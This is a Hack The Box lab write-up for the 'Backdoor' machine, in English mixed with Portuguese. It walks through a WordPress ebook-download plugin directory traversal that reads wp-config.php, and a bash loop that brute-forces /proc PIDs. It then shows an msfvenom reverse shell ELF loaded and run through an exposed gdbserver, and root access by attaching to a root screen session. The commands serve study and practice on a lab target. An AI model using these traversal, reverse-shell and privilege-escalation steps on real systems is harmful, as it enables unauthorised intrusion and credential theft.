

# Introdution

[https://app.hackthebox.com/machines/Backdoor](https://app.hackthebox.com/machines/Backdoor)

This is a easy linux machine. We'll starts by finding a WordPress plugin with a directory traversal bug, that allows me to read files from the filesystem. We’ll explore this vuln to read the file in /proc and identify the service running in port 1337. This service is the GDB Server. We’ll explore the service to get the shell. To privilege escalation we’ll use the screen command.

**Have a good time!**

## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.11.125 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.11.125
```


## Porta 80 (http)

We have checked an incomplete web page, which is called the domain `backdoor.htb`

`http://10.10.11.125/`


So we add the `backdoor.htb` domain to **/etc/hosts**.

```bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### Fuzzing Diretório WEB

```bash
gobuster dir -u http://backdoor.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -e --no-error -r -x php,txt
```

```bash
===============================================================

http://10.10.11.125/.htpasswd            (Status: 403) [Size: 277]
http://10.10.11.125/index.php            (Status: 200) [Size: 63830]
http://10.10.11.125/license.txt          (Status: 200) [Size: 19915]
http://10.10.11.125/server-status        (Status: 403) [Size: 277]  
http://10.10.11.125/wp-content           (Status: 200) [Size: 0]    
http://10.10.11.125/wp-admin             (Status: 200) [Size: 5674] 
http://10.10.11.125/wp-config.php        (Status: 200) [Size: 0]    
http://10.10.11.125/wp-includes          (Status: 200) [Size: 52159]
http://10.10.11.125/wp-login.php         (Status: 200) [Size: 5674] 
http://10.10.11.125/xmlrpc.php           (Status: 405) [Size: 42]   
http://10.10.11.125/wp-trackback.php     (Status: 200) [Size: 135]  
                                                                    
===============================================================
```

---

The target is running Wordpress. Let's enumerate the search for any vulnerable plugin.

## Directory Traversal

We found a plugin, which is vulnerable to **Directory Traversal**.

`http://10.10.11.125/wp-content/plugins/`


`https://www.exploit-db.com/exploits/39575`


We were able to download a configuration file with credentials.

```bash
curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```


I tried logging in at `http://backdoor.htb/wp-login.php` but without success.

## Porta 1337 (???)

### Enumeração de Processos (Brute Force PID)

We don't know which service is running.

We will do a process enumeration (brute force PID).

I can take a look at `/proc`, which has a directory for each process ID (pid) currently running. For example in my kali:


There's also the `self` directory, which is a symlink to the current process's pid. Again, in my kali:


In each listed directory, there is the `cmdline` file, which has the command line user to run the process:


On target I can do the same thing:

```bash
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl**=**../../../../../../../proc/self/cmdline
```


However, curl does not allow to play binary data in the terminal. You will need to use `-o-` to force exit.

```bash
curl -o- http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl**=**../../../../../../../proc/self/cmdline
```


Now let's clean up this output:

```bash
curl -o- -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c55- | rev | cut -c32- | rev
```

> `-s` para limpar a saída.
>
> `tr '\000' ' '` substitui os dados nulos por espaços.
>
> `cut -c55-` retira: ***/proc/self/cmdline/proc/self/cmdline/proc/self/cmdline***
>
> `cut -c32-` Retira: `<script>window.close()</script>`
>
> `rev` Inverte a string
 


Now that the output is clean, we'll make a script that will change `self` to a PID from 1 to 2000 and show us the process running on each PID.

```bash
#!/bin/bash

for i in {1..2000}; do

    path="/proc/${i}/cmdline"    
    retira_path=$(( 3 * ${#path} + 1))

    resp=$(curl -o- -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path} | tr '\000' ' ')
    saida=$(echo $resp | cut -c ${retira_path}- | sed "s/<script>window.close()<\/script>//")
    
    if [[ -n "$saida" ]]; then
        echo -e "PID:${i} ==> ${saida}"
    fi

done
```

This script will take a while to return what we want, but the result is this:


We see that `GDB Server` is running on port 1337 with **user** user in loop.

```bash
/bin/sh -c while true;
    do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
done
```

# Exploration

## Exploring GDB Server

Reference: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver)

> Hacktricks has a [page](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) on how to explore `gdbserver` files. I suspect that at least the first technique has been tested on the Backdoor (given the use of port 1337 and the location of `/home/user`). This technique consists of creating an elf, loading it into the remote debugger and running it there.
> 

I'm going to create a simple reverse shell payload with `msfvenom`:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 PrependFork=true -f elf -o perverse.elf
```

Then started debugging locally:

```bash
gdb -q perverse.elf
```

```bash
## We are in gdb context

## Now, connect to the remote server:
target extended-remote 10.10.11.125:1337

## With this connection, I can load the binary:
remote put perverse.elf /tmp/perverse.elf

## On kali, prepare a listener on port 443

## Now I just need to set the remote debug target for this file and run it:
set remote exec-file /tmp/perverse.elf
run
```


We managed to shell with the `user` user.

**HABEMUS SHELL!!!**

# Post-Exploration

## Update Shell

```bash
/usr/bin/script -qc /bin/bash /dev/null

export SHELL=bash;export TERM=xterm-256color

python3.8 -c "import pty; pty.spawn('/bin/bash')"
```

## Privilege Escalation

Enumerating the existing processes, we see that something is running `screen` as root (in a loop) as root. This command checks the `/var/run/screen/S-root` directory every one second, if empty it creates a root session on screen.


> Screen is a terminal multiplexer tool, which allows the user to open multiple windows within one session and keep those windows running even when the user is not around or logged in (they will disappear on reboot).
> 

We can see that there is a root session:

```bash
ls -l /var/run/screen/
```


Here we cannot read the **S-root** directory.

```bash
screen -ls root/
```


To login to the session:

```bash
screen -x root/ 
```

But first we need to use a terminal:

```bash
export TERM=xterm
```

**HABEMUS ROOT!!!**